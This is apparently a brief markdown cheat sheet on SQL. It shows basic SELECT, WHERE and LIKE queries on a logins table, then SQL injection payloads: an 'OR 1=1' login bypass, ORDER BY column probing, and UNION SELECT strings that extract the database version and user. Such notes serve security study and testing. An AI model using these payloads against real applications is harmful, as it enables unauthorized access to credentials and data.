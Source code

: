 ## Limit

```sql
SELECT * FROM logins LIMIT 2;
```

## Where
```sql
SELECT * FROM logins where username = 'admin';
```

## LIKE

```sql
SELECT * FROM logins WHERE username LIKE 'admin%';
```

# Injections
## Basic

```sql
admin' OR '1'='1
```
## Comments
```sql
--
```

## Unions
### Detect Number of Columns

- The number is the column number. Keep running this until you get a unknown column number. 

```sql
' order by 1-- 
```

### Using UNION

- Add the number of columns you found above in the select here.

```sql
cn' UNION select 1,2,3,-- 
```

```sql
cn' UNION select 1,@@version,3,4-- 
```

```sql
cn' UNION select 1,user(),3,4-- 
```
